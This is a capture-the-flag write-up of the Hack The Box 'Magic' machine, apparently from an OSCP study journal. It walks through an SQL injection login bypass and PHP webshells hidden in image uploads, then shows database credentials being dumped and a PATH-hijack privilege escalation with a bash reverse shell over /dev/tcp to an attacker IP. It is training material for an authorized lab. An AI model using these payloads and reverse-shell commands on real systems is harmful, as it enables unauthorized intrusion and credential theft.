

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/linux-boxes/magic-medium
---

# ✅ Magic (Medium)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** SQL Injection, Improper Validation

**System Vulnerable:** 10.10.10.185

**Vulnerability Explanation:** The machine is vulnerable to SQL Injection which could allow us to bypass authentication. We can bypass file upload and gain shell on the machine.

**Privilege Escalation Vulnerability:** Misconfigure on SUID

**Vulnerability Fix:** Sanitize Input and least privilege.

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -p- -sC -sV -T4 10.10.10.185
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-29 10:41 EST
Nmap scan report for 10.10.10.185
Host is up (0.040s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home - CUPS 2.2.7
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Port 80 Apache/2.4.29

.png>)

Running gobuster to check hidden directory.

```
└─$ gobuster dir -u http://10.10.10.185 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .php    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.185
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2021/11/29 10:43:11 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://10.10.10.185/assets/]
/upload.php           (Status: 302) [Size: 2957] [--> login.php]                 
/index.php            (Status: 200) [Size: 4529]                                 
/login.php            (Status: 200) [Size: 4221]                                 
/images               (Status: 301) [Size: 313] [--> http://10.10.10.185/images/]
/logout.php           (Status: 302) [Size: 0] [--> index.php]                    
/backdoor.php         (Status: 200) [Size: 0]                                    
/server-status        (Status: 403) [Size: 277]                                  
                                                                                 
===============================================================
2021/11/29 10:49:21 Finished
===============================================================

```

### SQL Injection

We found a login webpage. Can try SQL Injection. By simply inject `' or 1=1-- -` we are in.

.png>)

.png>)

### Burp bypass Login

By visiting /upload.php, it will response with 302 status code.&#x20;

.png>)

Go to **Burp > Proxy > Options Tab >  Match and Replace**

.png>)

Again visiting the /upload.php it doesn't require authenticate.

.png>)

Let try to upload file but it accepted only image file extension.

.png>)

On index.php, there are a lots of photo and the path stored **/images/uploads/name.jpg.**

.png>)

Let create a php shell file with magic word of gif and double extension.

```
└─$ cat shell.php.png                                           
GIF8
<?php system($_REQUEST['cmd']; ?>
```

Once, we have uploaded, there is another restriction.

.png>)

Let add PHP code into image file.jpg.

```
└─$ exiftool -Comment='<?php system($_GET['cmd']); ?>' file.jpg            
    1 image files updated
└─$ mv file.jpg file.php.jpg               
└─$ file file.php.jpg 
file.php.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, comment: "<?php system($_GET[cmd]); ?>", baseline, precision 8, 626x626, components 3
```

Let uploads, this time it's working and we can confirms code execution.

.png>)

.png>)

## Exploitation

Let send the request to burp and inject bash reverse shell with URL encoded.

.png>)

.png>)

## Privilege Escalation

### Shell as theseus

```
www-data@ubuntu:/var/www/Magic$ cat db.php5 
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';

```

Let try to access via SSH with credential but it doesn't work.

```
└─$ ssh theseus@10.10.10.185 
The authenticity of host '10.10.10.185 (10.10.10.185)' can't be established.
ECDSA key fingerprint is SHA256:yx0Y6af8RGpG0bHr1AQtS+06uDomn1MMZVzpNaHEv0A.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.185' (ECDSA) to the list of known hosts.
theseus@10.10.10.185: Permission denied (publickey).
```

Let access through mysql.

```
www-data@ubuntu:/var/www/Magic$ netstat -tupln
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:631             0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:60080           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           -                   
udp6       0      0 :::47455                :::*                                -                   
udp6       0      0 :::5353                 :::*                                -   
```

### mysql localhost

```
/www-data@ubuntu:/var/www/Magic$ mysqldump --databases Magic --user=theseus --password=iamkingtheseus 
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost    Database: Magic
-- ------------------------------------------------------
-- Server version       5.7.29-0ubuntu0.18.04.1

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;
```

```
www-data@ubuntu:/var/www/Magic$ su theseus
Password: 
theseus@ubuntu:/var/www/Magic$ whoami
theseus
theseus@ubuntu:/var/www/Magic$ id
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
```

### Shell as root

Find misconfigure SUID file.

### /bin/sysinfo

```
theseus@ubuntu:~$ find / -type f -perm -4000 -ls 2>/dev/null
   393232     24 -rwsr-x---   1 root     users              22040 Oct 21  2019 /bin/sysinfo
```

Running ltrace with /bin/sysinfo. It's going to run fdisk but not full path.

```
popen("fdisk -l", "r")                                                                                               = 0x56463337f280
fgets(fdisk: cannot open /dev/loop0: Permission denied
fdisk: cannot open /dev/loop1: Permission denied
fdisk: cannot open /dev/loop2: Permission denied
fdisk: cannot open /dev/loop3: Permission denied
fdisk: cannot open /dev/loop4: Permission denied
fdisk: cannot open /dev/loop5: Permission denied
fdisk: cannot open /dev/loop6: Permission denied

```

Let create a file with bash reverse shell and save as fdisk on /tmp.

```
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.24/5555 0>&1' > fdisk
chmod +x fdisk
```

Export the PATH.

```
theseus@ubuntu:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
theseus@ubuntu:/tmp$ export PATH="/tmp:$PATH"
theseus@ubuntu:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Let start netcat listener on port 5555 and run /bin/sysinfo.

```
nc -lvp 5555
```

.png>)
